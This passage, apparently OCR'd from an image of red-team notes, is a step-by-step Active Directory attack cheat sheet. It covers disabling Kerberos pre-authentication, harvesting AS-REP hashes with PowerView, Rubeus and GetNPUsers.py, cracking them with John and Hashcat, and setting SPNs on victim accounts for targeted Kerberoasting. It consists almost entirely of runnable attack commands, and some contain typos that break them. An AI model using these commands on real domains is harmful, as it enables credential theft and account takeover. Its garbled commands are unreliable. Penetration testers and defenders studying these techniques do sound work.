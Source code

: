 #PowerView : Disabling PreAuth for Kerberos
Powerview.exe Set-DomainObject -Identity USER_NAME -XOR @{useraccountcontrol=4194304} -Verbose

#Using AD Module Disabling PreAuth for Kerberos
Set-ADAccountControl -Identity Administrator -doesnotrequirepreauth $true

Step - 4 - Validating the changes 

#Find the users with PreAuth Not Required
Get-DomainUser -PreAuthNotRequired -Verbose

Step - 5 - Getting the AS-REP

#Using ASREPRoast.ps1 Requesting AS-REP for offline bruteforcing:
Get-ASREPhash -Username USER_NAME -Verbose
Invoke-ASREPRoast -Verbose		

OR

#Using Rubeus for Requesting AS-REP for offline bruteforcing: remove all the spaces from the hash before bruteforcing 
Rubeus.exe asreproast /user:UserName 
OR
Rubeus.exe asreproast /user:Administrator /format:hashcat /outfile:hash.txt

OR

#get the hash using GetNPUsers.py
GetNPUsers.py STEINS-DC.LOCAL/ -usersfile users.txt -outputfile hashes.txt -dc-ip 10.10.10.10

Step - 6 - Cracking the hash 

#Copy the hash and crack it using John
john krbhash --wordlist=wordlist.txt 

#Cracking using Hashcat; add $23 after $krb5asrep if you do not export the hash as hashcat format
hashcat -m 18200 hash -a 3 rockyou.txt
hashcat -m 18200 hash rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force 

Targeted Kerberoasting - Set SPN 
Step -1 

#PowerView - Find users with GenericAll Permissions Set
Invoke-ACLScanner -ResolveGUIds | {$_.IdentityReferenceName -match "RDPUsers"}

#AD Module - Find the user without SPN 
Get-ADUser -Identity USER_Name -Properties ServicePrincipalName | Select ServicePrincipalName

Step -2 

#AD Module - Set SPN for a User (Must be Unique for the domain)
Set-ADUser -Identity USER_NAME -ServicePrincipalNames @{Add='DomainName/SomeUniqueName'} -Server steins.local

#PowerView - Set SPN for a User
Set-DomainObject -Identity USER_NAME -Set @{serviceprincialName = 'DomainName/SomeUniqueName'}

or

Set-ADObject -SamAccountName <TARGET_Username> -PropertyName serviceprincipalname -PropertyVale 'domainName/SomeUniqueName'
